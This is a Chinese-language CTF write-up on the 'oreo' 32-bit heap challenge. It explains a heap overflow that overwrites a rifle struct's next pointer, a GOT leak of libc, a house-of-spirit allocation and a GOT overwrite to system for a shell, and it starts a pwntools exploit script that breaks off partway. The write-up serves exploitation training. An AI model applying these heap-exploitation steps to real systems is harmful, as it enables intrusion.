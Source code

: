 可以看出，程序確實是比較老的，32位程序，動態鏈接，就連 RELRO 技術也沒有上。

### 基本功能

**需要注意的是，該程序並沒有進行 setvbuf 操作，因此在初次執行 io 函數時，會在堆上分配空間。**

正如程序中直接輸出的信息，程序主要是一個原始的在線槍支系統。其中，根據添加槍支的過程，我們可以得到槍支的基本結構如下

```c
00000000 rifle           struc ; (sizeof=0x38, mappedto_5)
00000000 descript        db 25 dup(?)
00000019 name            db 27 dup(?)
00000034 next            dd ?                    ; offset
00000038 rifle           ends
```

程序的基本功能如下

- 添加槍支，其主要會讀取槍支的名字與描述。但問題在於讀取的名字的長度過長，可以覆蓋 next 指針以及後面堆塊的數據。可以覆蓋後面堆塊的數據大小爲 56-(56-27)=27 大小。需要注意的是，這些槍支的大小都是在fastbin 範圍內的。
- 展示添加槍支，即從頭到尾輸出槍支的描述與名字。
- 訂已經選擇的槍支，即將所有已經添加的槍支釋放掉，但是並沒有置爲NULL。
- 留下訂貨消息
- 展示目前狀態，即添加了多少隻槍，訂了多少單，留下了什麼信息。

不難分析得到，程序的漏洞主要存在於添加槍支時的堆溢出漏洞。

### 利用

基本利用思路如下

1. 由於程序存在堆溢出漏洞，而且還可以控制 next 指針，我們可以直接控制 next 指針指向程序中 got 表的位置。當進行展示的時候，即可以輸出對應的內容，這裏同時需要確保假設對應地址爲一個槍支結構體時，其 next 指針爲 NULL。這裏我採用 puts@got。通過這樣的操作，我們就可以獲得出 libc 基地址，以及 system 函數地址。
2. 由於槍支結構體大小是 0x38 大小，所以其對應的 chunk 爲 0x40。這裏採用 `house of sprit` 的技術來返回 0x0804A2A8 處的chunk，即留下的消息的指針。因此，我們需要設置 0x0804A2A4 處的內容爲 0x40，即需要添加 0x40 支槍支，從而繞過大小檢測。同時爲了確保可以繞過 next chunk 的檢測，這裏我們編輯留下的消息。
3. 在成功分配這樣的 chunk 後，我們其實就有了一個任意地址修改的漏洞，這裏我們可以選擇修改一個合適的 got 項爲 system 地址，從而獲得 shell。

具體代碼如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


```